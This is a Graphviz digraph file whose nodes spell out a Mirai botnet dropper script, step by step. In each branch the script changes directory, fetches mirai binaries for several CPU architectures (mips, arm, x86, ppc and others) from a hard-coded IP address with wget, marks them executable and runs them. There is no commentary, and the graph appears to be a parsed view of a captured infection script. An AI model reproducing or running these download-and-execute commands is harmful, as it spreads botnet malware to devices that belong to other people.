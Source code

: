 digraph {
112 [label="cd /tmp "];
112 -> 112
114 [label="cd /var/run "];
114 -> 116 [label="||,"];
116 [label="cd /mnt "];
116 -> 118 [label="||,"];
118 [label="cd /root "];
118 -> 120 [label="||,"];
120 [label="cd / "];
120 -> 10 [label="||,"];
10 [label="wget http://198.167.140.126/mirai.mips "];
10 -> 12 [label=";,"];
12 [label="chmod +x mirai.mips "];
12 -> 14 [label=";,"];
14 [label="./mirai.mips "];
14 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="cd /var/run "];
114 -> 116 [label="||,"];
116 [label="cd /mnt "];
116 -> 118 [label="||,"];
118 [label="cd /root "];
118 -> 120 [label="||,"];
120 [label="cd / "];
120 -> 26 [label="||,"];
26 [label="wget http://198.167.140.126/mirai.sh4 "];
26 -> 28 [label=";,"];
28 [label="chmod +x mirai.sh4 "];
28 -> 30 [label=";,"];
30 [label="./mirai.sh4 "];
30 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="cd /var/run "];
114 -> 116 [label="||,"];
116 [label="cd /mnt "];
116 -> 118 [label="||,"];
118 [label="cd /root "];
118 -> 120 [label="||,"];
120 [label="cd / "];
120 -> 42 [label="||,"];
42 [label="wget http://198.167.140.126/mirai.arm7 "];
42 -> 44 [label=";,"];
44 [label="chmod +x mirai.arm7 "];
44 -> 46 [label=";,"];
46 [label="./mirai.arm7 "];
46 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="cd /var/run "];
114 -> 116 [label="||,"];
116 [label="cd /mnt "];
116 -> 118 [label="||,"];
118 [label="cd /root "];
118 -> 120 [label="||,"];
120 [label="cd / "];
120 -> 58 [label="||,"];
58 [label="wget http://198.167.140.126/mirai.arm "];
58 -> 60 [label=";,"];
60 [label="chmod +x mirai.arm "];
60 -> 62 [label=";,"];
62 [label="./mirai.arm "];
62 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="cd /var/run "];
114 -> 116 [label="||,"];
116 [label="cd /mnt "];
116 -> 118 [label="||,"];
118 [label="cd /root "];
118 -> 120 [label="||,"];
120 [label="cd / "];
120 -> 74 [label="||,"];
74 [label="wget http://198.167.140.126/mirai.mpsl "];
74 -> 76 [label=";,"];
76 [label="chmod +x mirai.mpsl "];
76 -> 78 [label=";,"];
78 [label="./mirai.mpsl "];
78 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="cd /var/run "];
114 -> 116 [label="||,"];
116 [label="cd /mnt "];
116 -> 118 [label="||,"];
118 [label="cd /root "];
118 -> 120 [label="||,"];
120 [label="cd / "];
120 -> 90 [label="||,"];
90 [label="wget http://198.167.140.126/mirai.ppc "];
90 -> 92 [label=";,"];
92 [label="chmod +x mirai.ppc "];
92 -> 94 [label=";,"];
94 [label="./mirai.ppc "];
94 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="cd /var/run "];
114 -> 116 [label="||,"];
116 [label="cd /mnt "];
116 -> 118 [label="||,"];
118 [label="cd /root "];
118 -> 120 [label="||,"];
120 [label="cd / "];
120 -> 106 [label="||,"];
106 [label="wget http://198.167.140.126/mirai.x86 "];
106 -> 108 [label=";,"];
108 [label="chmod +x mirai.x86 "];
108 -> 110 [label=";,"];
110 [label="./mirai.x86 "];
110 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="cd /var/run "];
114 -> 116 [label="||,"];
116 [label="cd /mnt "];
116 -> 118 [label="||,"];
118 [label="cd /root "];
118 -> 120 [label="||,"];
120 [label="cd / "];
120 -> 122 [label="||,"];
122 [label="wget http://198.167.140.126/mirai.m68k "];
122 -> 124 [label=";,"];
124 [label="chmod +x mirai.m68k "];
124 -> 125 [label=";,"];
}

